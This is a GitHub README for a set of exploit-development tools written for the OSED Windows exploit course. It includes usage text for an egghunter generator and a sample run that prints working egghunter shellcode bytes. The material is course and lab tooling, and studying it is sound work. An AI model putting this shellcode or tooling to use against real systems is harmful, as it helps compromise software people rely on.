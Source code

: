 # osed-scripts

bespoke tooling for offensive security's Windows Usermode Exploit Dev course
(OSED)

## Table of Contents

- [Standalone Scripts](#standalone-scripts)
  - [egghunter.py](#egghunterpy)
  - [find-gadgets.py](#find-gadgetspy)
  - [shellcoder.py](#shellcoderpy)
  - [install-mona.sh](#install-monash)
- [WinDbg Scripts](#windbg-scripts)
  - [find-ppr.py](#find-pprpy)

## Standalone Scripts

### Installation:

pip3 install keystone-engine numpy

### egghunter.py

requires [keystone-engine](https://github.com/keystone-engine/keystone)

```
usage: egghunter.py [-h] [-t TAG] [-b BAD_CHARS [BAD_CHARS ...]] [-s]

Creates an egghunter compatible with the OSED lab VM

optional arguments:
  -h, --help            show this help message and exit
  -t TAG, --tag TAG     tag for which the egghunter will search (default: c0d3)
  -b BAD_CHARS [BAD_CHARS ...], --bad-chars BAD_CHARS [BAD_CHARS ...]
                        space separated list of bad chars to check for in final egghunter (default: 00)
  -s, --seh             create an seh based egghunter instead of NtAccessCheckAndAuditAlarm

```

generate default egghunter

```
./egghunter.py
[+] egghunter created!
[=]   len: 35 bytes
[=]   tag: c0d3c0d3
[=]   ver: NtAccessCheckAndAuditAlarm

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x63\x30\x64\x33\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"

```
